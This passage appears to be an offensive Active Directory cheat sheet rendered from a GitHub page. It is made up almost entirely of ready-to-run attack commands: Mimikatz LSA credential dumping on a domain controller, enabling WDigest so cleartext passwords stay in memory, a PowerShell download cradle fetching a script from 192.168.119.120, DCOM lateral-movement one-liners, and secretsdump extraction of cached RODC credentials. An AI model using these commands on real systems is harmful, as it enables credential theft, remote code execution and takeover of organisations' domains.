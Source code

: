 	- `Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject"' -Computer dc03.prod.local`
- Turn on WDigest to force storing of cleartext passwords in LSASS
	- `Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'`
- Copy proxy settings from valid user for SYSTEM download cradle
	```PowerShell
	New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
	$keys = Get-ChildItem 'HKU:\'
	ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = 
	$key.Name.substring(10);break}}
	$proxyAddr=(Get-ItemProperty -Path 
	"HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer[system.net.webrequest]::DefaultWebProxy = new-object 
	System.Net.WebProxy("http://$proxyAddr")
	$wc = new-object system.net.WebClient
	$wc.DownloadString("http://192.168.119.120/run2.ps1")
	```

- Dynamic DNS
	- `Invoke-DNSUpdate -DNSType A -DNSName test -DNSData 192.168.100.100 -Verbose` 

- Lateral Movement
	- DCOM
		- `$([activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","acmedc.acme.int"))).Navigate("c:\windows\system32\calc.exe")`
		- `$([activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","acmedc.acme.int"))).Navigate2("c:\windows\system32\calc.exe")`
		- `$a=[System.Activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application.1','127.0.0.1'));$a.Document.ActiveView.ExecuteShellCommand('cmd',$null,'/c echo Cthulhu fhtagn! > C:\hi.txt','7')`

- Enable RestrictedAdmin
	- `New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0`

- Enumerate forest trusts
	- `([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRel ationships()`

- Enumerate Read-Only Domain Controllers (RODCs) with passwords currently cached.
	- `(Get-AdComputer -Identity RODC -Properties 'msDS-RevealedList').'msDS-RevealedList'`
	- Accounts like "krbtgt_12345" are related to the RODC (meant to be compromised) and are therefore useless

- Retrieve cached credentials from RODC
	- `net ads search -k -S ad.local '(samaccountname=RODC$)' managedBy`
		- Find principals with local admin on RODC
	- `secretsdump.py <local admin>@rodc.ad.local -use-vss`
		- The NTDS will contain all users, but non-cached ones will have a null password shown by the hash "31d6cfe0d16ae931b73c59d7e0c089c0"

- Enumerate a user for a fine-grained password policy
	- `(Get-AdUser -Identity <username> -Properties 'msDS-ResultantPso'). 'msDS-ResultantPso'`
		- An empty reply means that the default domain-wide policy is used
		- If non-empty...
	- `(Get-AdObject -SearchBase 'CN=Password Settings Container, CN=System, DC=ad, DC=local' -LdapFilter 'CN=<CN-from-above>' -Properties *).'msDS-MinimumPasswordLength'`
